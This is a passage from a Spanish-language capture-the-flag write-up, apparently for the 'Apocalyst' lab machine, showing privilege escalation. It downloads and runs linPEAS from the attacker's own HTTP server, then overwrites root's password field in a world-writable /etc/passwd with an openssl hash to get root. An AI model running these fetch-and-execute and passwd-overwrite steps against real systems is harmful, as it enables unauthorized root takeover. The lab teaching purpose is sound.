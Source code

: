 Listo. Ahora podemos hacer Ctrl-C sin peligro de que se nos cierre la bash y Ctrl-L para limpiar la terminal.

Si nos dirigimos a /home/falaraki encontramos el user.txt con la flag. Ahora toca escalar privilegios.

## Escalación de Privilegios

Vamos a descargar en la máquina [**linPEAS**](https://github.com/carlospolop/PEASS-ng), una utilidad que nos permitirá realizar una gran cantidad de escaneos para encontrar fallas en el sistema. Para traerla decidí crear en mi máquina un servidor en Python en el mismo directorio que tengo el script y descargar el archivo en la shell. 

{% highlight bash %}
(En mi máquina)
python3 -m http.server 80

(En la máquina víctima)
cd /dev/shm
wget http://10.10.14.7/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
{% endhighlight %}

Como el escaneo devuelve demasiada información voy a colocar sólo un fragmento que me llamó mucho la atención:

{% highlight bash %}
╔══════════╣ Permissions in init, init.d, systemd, and rc.d   
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d
═╣ Writable passwd file? ................ /etc/passwd is writable
{% endhighlight %}

Esto muy pocas veces lo van a ver, pero cuando lo vean ya tienen asegurado el root. Como tenemos permisos para escribir en el passwd podemos acceder como el usuario que queramos. Lo pueden comprobar haciendo un *ls*:

{% highlight bash %}
ls -la /etc/passwd
-rw-rw-rw- 1 root root 1649 Feb 24 12:25 /etc/passwd
{% endhighlight %}

Por defecto los usuarios tienen una x, lo que significa que la contraseña la tomará del /etc/shadow, archivo el cuál no tenemos acceso. Por lo tanto, necesitamos cambiar esa x por un hash, porque el sistema tomará la primera contraseña que encuentre, que será la añadida.

{% highlight bash %}
> openssl passwd
Password: toor
Verifying - Password: toor
2r5/v3qyIr5jI
{% endhighlight %}

Cambiamos la x de root en el /etc/passwd por este hash y listo:

{% highlight bash %}
www-data@apocalyst:/dev/shm$ su root
Password: 
root@apocalyst:/dev/shm# whoami 
root
root@apocalyst:/dev/shm# 
{% endhighlight %}
